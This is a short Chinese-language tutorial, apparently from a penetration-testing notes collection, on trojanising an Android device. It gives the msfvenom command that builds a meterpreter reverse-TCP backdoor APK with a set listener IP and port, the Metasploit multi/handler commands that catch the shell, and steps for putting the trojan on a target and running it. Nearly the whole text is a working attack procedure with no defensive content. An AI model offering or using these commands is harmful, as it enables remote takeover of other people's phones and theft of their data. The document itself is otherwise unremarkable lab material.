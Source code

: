 # 一、环境准备

1. MSF-Metasploit Framework
2. 一台安装手机或者模拟器

# 二、木马生成

1. 生成一个APK后门
2. msfvenom -p android/meterpreter/reverse_tcp LHOST={监控IP} LPORT={监控端口} R>k.apk。

msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.110.38  LPORT=4567 R>k.apk

# 三、配置监控

1. 启动msf   终端内输入：msfconsole 启动msf![1643003592876](21 通过木马反弹shell（Android）.assets/1643003592876.png)

2. 载入监控模块  msf中输入：  use exploit/multi/handler

3. 载入payload MSF终端中输入： set payload android/meterpreter/reverse_tcp

   ![1643003612323](21 通过木马反弹shell（Android）.assets/1643003612323.png)

4. 配置payload  MSF终端中输入：show options

5. 配置监控IP MSF中输入：set lhost  <监控的IP>

6. 配置监控端口  MSF中输入：set lporr  <监控的端口>

7. 执行监控  msf终端中输入： run![1643003633911](21 通过木马反弹shell（Android）.assets/1643003633911.png)

# 四、攻击利用

1. 将木马上传到靶机
2. 在靶机上执行木马
3. 完成攻击利用![1643003654523](21 通过木马反弹shell（Android）.assets/1643003654523.png)
